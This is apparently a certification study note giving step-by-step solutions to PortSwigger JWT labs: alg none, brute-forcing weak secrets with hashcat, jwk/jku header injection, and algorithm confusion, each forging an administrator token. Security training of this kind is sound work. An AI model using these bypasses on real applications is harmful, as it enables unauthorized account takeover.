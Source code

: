 # JWT :   JSON web tokens

#### Quick JWT primer (very short)
- A JSON Web Token (JWT) is three base64url-encoded parts joined by dots:
```css
HEADER.PAYLOAD.SIGNATURE
```
- Header: algorithm (alg) and optional parameters (kid, jwk, jku, etc.).
- Payload: claims (sub, iss, exp, etc.).
- Signature: depends on alg:
	- HMAC (symmetric): e.g. HS256 — signature = HMAC(secret, header.payload)RSA/ECDSA (asymmetric): e.g. RS256 — signature = Sign(private_key, header.payload) and verification uses the public key
 Symmetric Key  : HS256
 ASymmetric key : RSA

### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### Lab: JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```

### Lab: JWT authentication bypass via weak signing key

Payload
```
step 1 : Brute-force the secret key

	hashcat -a 0 -m 16500 complete_jwt_tokens ./jwt.secrets.list  : secret1
	Encode in base64 secret1 : c2VjcmV0MQ==

step 2: Generate a forged signing key

	 - JWT Editor Keys tab and click New Symmetric Key : Generate
	 - Replace the generated value for the k property with the Base64-encoded secret.

step 3 - Modify and sign the JWT
		
	 - {"iss":"portswigger","exp":1760963935,"sub":"wiener"}
	 - {"iss":"portswigger","exp":1760963935,"sub":"administrator"}

	 - Sign, then select the key that you generated .



```

## JWT header parameter injections

- According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

		-	jwk (JSON Web Key) - Provides an embedded JSON object representing the key.
		-	jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
		-	kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Lab: JWT authentication bypass via jwk header injection

Payload
```
- JWT Editor Keys tab.
- Generate a new RSA key .
- JSON Web Token tab and modify the token's payload however you like.
- Click Attack, then select Embedded JWK.
- you may also need to update the JWT's kid header parameter to match the kid of the embedded key

```

### Lab: JWT authentication bypass via jku header injection

Payload
```
step 1: Generate a RSA signing key
	- JWT Editor Keys tab.
	- Generate a new RSA key 
	- Paste the RSA key on exploit server in below section :
		{
    	"keys": [
    		// Generate a new RSA key 
    		]
		}

- step 2 - Modify and sign the JWT
	- Match the both kid values (new values)
	- Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
	- sub  : administrartor 
	- Sign with RSA key
```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/jwt-jku.jpg)


<hr>

### Lab: JWT authentication bypass via algorithm confusion


Payload
```
step 1 — Obtain the server public key
	- Open /jwks.json in the browser and copy the single JWK object from the keys array (copy only the object).

step 2 — Create a malicious symmetric key in Burp

	- In Burp → JWT Editor → Keys: New RSA Key → choose JWK and paste the copied JWK; save.
	- Right-click the new key → Copy Public Key as PEM.
	- Base64-encode that PEM (use Decoder tab) and copy the Base64 string.
	- In JWT Editor → Keys: New Symmetric Key → Generate, then replace the k value with the Base64-encoded PEM; save.

Step 3 — Modify and sign the token

	- Open the GET /admin request in Repeater, switch to the JWT Editor tab.
	- Change JWT header alg → HS256.
	- Change payload claim sub → administrator.
	- Click Sign, pick the symmetric key you created, ensure Don't modify header is selected, and sign.
	- Send the request — you should now access the admin panel.

```


### Lab: JWT authentication bypass via algorithm confusion with no exposed key

Payload
```
Step1:  Collect two valid JWTs
	- Log in, capture the session JWT (/my-account → store cookie).
	- Log out, log in again, capture a second JWT.

Step2: Brute-force candidate public keys
	- Run docker run --rm -it portswigger/sig2n <token1> <token2>.
	- The tool outputs candidate n values, Base64 X.509/PKCS1 public keys and tampered JWTs.

Step3: Find the server’s actual public key
	- For each tampered JWT (X.509 entry) replace your session cookie in Burp and request /my-account.
	- A 200 means you found the correct X.509 key; a 302 redirect to /login means it’s wrong.

Step4: Create a symmetric key in Burp
	- In JWT Editor → Keys → New Symmetric Key → Generate JWK.
	- Replace the k value with the Base64 X.509 key you identified (use the key itself, not the tampered JWT). Save.

Step5: Forge and sign an admin token
	- In Repeater open the JWT (JWT Editor tab). Set header alg: HS256.
	- Change payload claim sub to administrator.
	- Sign with the symmetric key you created (ensure “Don't modify header” is selected). This uses the server’s public key as the HMAC secret.

```
